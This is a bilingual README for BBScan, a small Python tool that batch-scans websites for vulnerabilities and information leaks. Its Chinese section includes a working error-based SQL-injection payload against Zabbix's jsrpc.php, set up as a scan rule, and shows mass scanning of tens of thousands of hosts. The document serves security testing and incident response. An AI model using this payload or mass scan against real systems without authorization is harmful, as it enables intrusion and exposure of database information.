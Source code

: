 # BBScan 1.2.0 #

**BBScan** is a tiny **B**atch we**B** vulnerability **Scan**ner.


## Requirements ##
* BeautifulSoup4==4.3.2
* py2-ipaddress==3.4.1
* dnspython==1.15.0

You can install required packages with pip

	pip install -r requirements.txt

## Usage ##

	usage: BBScan.py [options]
	
	* A tiny Batch weB vulnerability Scanner. *
	By LiJieJie (http://www.lijiejie.com)
	
	optional arguments:
	  -h, --help            show this help message and exit
	  --host HOST [HOST2 HOST3 ...]
	                        Scan several hosts from command line
	  -f TargetFile         Load targets from TargetFile
	  -d TargetDirectory    Load all *.txt files from TargetDirectory
	  --crawler TargetDirectory
	                        Load all *.log crawler file from TargetDirectory
	  --full-scan           Process all sub directories.
	  -n, --no-crawl        No crawling, sub folders will not be processed.
	  -nn, --no-check404    No HTTP 404 existence check
	  -p PROCESS            Num of processes running concurrently, 8 by default
	  -t THREADS            Num of scan threads for each scan process, 3 by default
	  --network MASK        Scan all Target/MASK hosts,
	                        should be an int between 24 and 31
	  --timeout Timeout     Max scan minutes for each website, 20 by default
	  --browser             View report with browser after scan finished
	  -md                   Save the scan report as markdown format
	  -v                    show program's version number and exit

**1. Scan several hosts from command line** 

	python BBScan.py  --host www.a.com www.b.com --browser

**2. Scan www.target.com and all the other IPs under www.target.com/28**

	python BBScan.py  --host www.target.com --network 28 --browser
	
**3. Load newline delimited targets from file and scan**
	
	python BBScan.py -f wandoujia.com.txt

**4. Load all targets from Directory(\*.txt file only) and scan**

	python BBScan.py -d targets/

**5. Load crawler logs from Directory(\*.log file only) and scan**

	python BBScan.py --crawler crawler_logs/

crawler log files should be formarted first:

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200


## 使用说明 ##

BBScan是一个迷你的信息泄漏批量扫描脚本。 可以通过文本批量导入主机或URL，以换行符分割。
	
`--crawler` 参数是v1.1新增的，可以导入爬虫日志发起扫描。 日志的格式，我们约定如下：

			Request Line + 三个尖括号 + [POST请求body] + 三个尖括号 + HTTP状态码
示例如下：

			. GET http://www.iqiyi.com/ HTTP/1.1^^^200
			. POST http://www.pps.tv/login.php HTTP/1.1^^^user=admin&passwd=admin^^^200

`--full-scan`  处理所有的子文件夹，比如 `http://www.target.com/aa/bb/cc/`, `/aa/bb/cc/` `/aa/bb/` `/aa/` 三个path都将被扫描

`-n, --no-crawl`  不从首页抓取新的URL

`-nn, --no-check404` 不检查状态码404是否存在，不保存404页面的大小进行后续比对


## web漏洞应急中的简单应用 ##

以批量扫描 Zabbix SQL注入为例，在一个txt文件中写入规则：

	/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1    {tag="Duplicate entry"}  {status=200}  {type="text/plain"}
	
	/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&stamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=1zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim%20estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi%20story.php&profileIdx=web.item.graph&profileIdx2=(select%201%20from%20(select%20count(*),concat(floor(rand(0)*2),%20user())x%20from%20information_schema.character_sets%20group%20by%20x)y)&updateProfil%20e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=%2017&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&%20mark_color=1          {tag="Duplicate entry"}  {status=200}  {type="text/plain"}

把所有HTTP like的服务写入 iqiyi.http.txt：

	不要抓首页
	不要检测404
	并发2个线程、 50个进程

可以比较迅速地扫完几万个域名和IP地址：

	BBScan.py --no-crawl --no-check404 -t2 -p50 -f iqiyi.http.txt


该插件是从内部扫描器中抽离出来的，感谢 `Jekkay Hu<34538980[at]qq.com>` ，欢迎提交有用的新规则	
